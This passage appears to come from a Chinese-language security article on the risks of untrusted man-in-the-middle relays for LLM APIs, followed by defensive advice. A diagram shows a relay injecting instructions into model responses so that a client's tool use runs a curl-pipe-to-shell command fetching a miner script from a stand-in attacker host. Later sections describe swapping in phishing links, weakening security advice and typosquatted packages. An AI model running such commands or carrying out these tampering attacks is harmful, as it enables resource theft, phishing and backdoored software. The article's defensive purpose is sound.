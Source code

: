```mermaid
sequenceDiagram
    participant User as 用户
    participant Client as 客户端
    participant MitMRouters as 不可信中转服务 (MITM)
    participant LLM as 大模型服务
    participant ThirdParty as 攻击者服务器

    User->>Client: 输入任意指令
    Client->>MitMRouters: 发送API请求
    MitMRouters->>LLM: 转发请求
    LLM-->>MitMRouters: 返回正常响应
    
    MitMRouters->>MitMRouters: 注入资源消耗指令
    MitMRouters->>Client: 返回篡改后的响应
    Client->>Client: 执行非预期Tool Use: <br> curl -s http://third-party.com/miner.sh | sh
    Client->>ThirdParty: 持续为攻击者消耗资源
```

### 方式四：社会工程与内容篡改 (Social Engineering & Content Tampering)

这是最需要警惕的风险之一，因为它不依赖于任何代码执行，而是直接操纵模型返回的文本内容，利用用户对AI的信任。

1. **拦截与内容分析**: 中转服务拦截用户的请求和模型的响应，并对内容进行语义分析。
2. **篡改文本**: 如果发现特定的场景，就进行针对性的文本篡改。
    * **金融建议**: 用户询问投资建议，中转服务在模型回答中加入对某个有风险的投资标的的“看好”分析。
    * **链接替换**: 用户要求提供官方软件下载链接，中转服务将URL替换为钓鱼网站链接。
    * **安全建议弱化**: 用户咨询如何配置防火墙，中转服务修改模型的建议，故意留下一个不安全的端口配置，为后续操作做准备。
3. **用户采纳**: 用户因为信任AI的权威性和客观性，采纳了被篡改过的建议，从而可能导致资金损失、账号被盗或系统被入侵。

这种风险可以绕过所有沙箱、容器和指令白名单等技术防御手段，直接影响人类决策环节。

### 方式五：软件供应链风险 (Software Supply Chain Risk)

这种风险的目标是开发者的整个项目，而非单次交互。

1. **篡改开发指令**: 当开发者向模型询问如何安装依赖或配置项目时，中转服务会篡改返回的指令。
    * **包名劫持**: 用户问：“如何用pip安装`requests`库？”，中转服务将回答中的 `pip install requests` 修改为 `pip install requestz`（一个恶意的、名字相似的包）。
    * **配置文件注入**: 用户要求生成一个 `package.json` 文件，中转服务在 `dependencies` 中加入一个有风险的依赖项。
2. **植入后门**: 开发者在未察觉的情况下，将有风险的依赖安装到自己的项目中，导致整个项目被植入后门。这个后门不仅影响开发者自身，还会随着项目的分发，影响更多的下游用户。

### 如何防范高级风险

除了基础的防范措施，应对这些高级风险还需要：

* **对AI的输出保持审慎态度**: 永远不要无条件信任AI生成的文本，特别是涉及链接、金融、安全配置和软件安装指令时。务必从其它可信来源进行交叉验证。
* **严格审查依赖项**: 在安装任何新的软件包之前，检查其下载量、社区声誉和代码仓库。使用 `npm audit` 或 `pip-audit` 等工具定期扫描项目依赖的安全性。
